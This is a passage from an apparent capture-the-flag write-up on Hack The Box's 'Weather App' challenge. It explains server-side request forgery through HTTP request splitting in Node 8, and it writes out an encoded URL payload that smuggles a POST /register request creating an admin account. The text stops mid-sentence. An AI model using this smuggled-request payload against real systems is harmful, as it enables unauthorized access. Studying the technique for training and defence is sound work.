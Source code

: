 <img src="https://raw.githubusercontent.com/hacefresko/HTB-Web-WriteUps/main/Weather%20App/images/httpGet.png" width="700px">

Now that we know how the application works, let's see how we can read the flag.

## Server-Side Request Forgery

In order to register a new user in the database and perform some SQL injection, we must trick the server into making itself the request to /register. Clearly, the way to do this is in /api/weather. 

After some trial and error and discarding a variety of options, I found out that the http module from Node 8 is vulnerable to [SSRF via Request Splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/). Basically, we can trick http.get() function into making extra requests. 

When Node 8 sends the http request through the wire, it encodes the string as bytes with 'latin1' encoding. When it tries to encode characters that are longer than permitted, they get truncated. So, if we insert some Unicode characters such as '\u010D' or '\u010A', they get truncated and converted to '\r' and '\n'. Since those Unicode chars are not HTTP control characters, they are not escaped, but they are succesfully sent through the wire.

Using this vulnerability, we can make extra HTTP requests by injecting and encoding the corresponding request headers in the URI path. So, a request to 'http://127.0.0.1/' will produce:

    '''
    GET / HTTP/1.1
    Host: 127.0.0.1
    '''

An encoded request to 'http://127.0.0.1/ HTTP/1.1\r\nHost: 127.0.0.1\r\n\r\nPOST /register HTTP/1.1\r\nHost: 127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 29\r\n\r\nusername=admin&password=admin\r\n\r\nGET /' will produce:

    '''
    GET / HTTP/1.1
    Host: 127.0.0.1

    POST /register HTTP/1.1
    Host: 127.0.0.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 29

    username=admin&password=admin

    GET / HTTP/1.1
    Host: 127.0.0.1
    '''

Spaces can be encoded as '\u0120', '\r' as '\u010D' and '\n' as '\u010A'. Characters ' and " must be URL encoded. So, the previous URL would like like 'http://127.0.0.1/ĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊčĊPOSTĠ/registerĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Type:Ġapplication/x-www-form-urlencodedčĊContent-Length:Ġ29čĊčĊusername=admin&password=adminčĊčĊGETĠ/Ġ'.

Now, we need to adapt this exploit to the application. As we have seen in /api/weather, we can specify an endpoint along with other parameters (since they are useless for this exploit, let's assume city = country = 'lol' from now on). The string in which it will be inserted is:
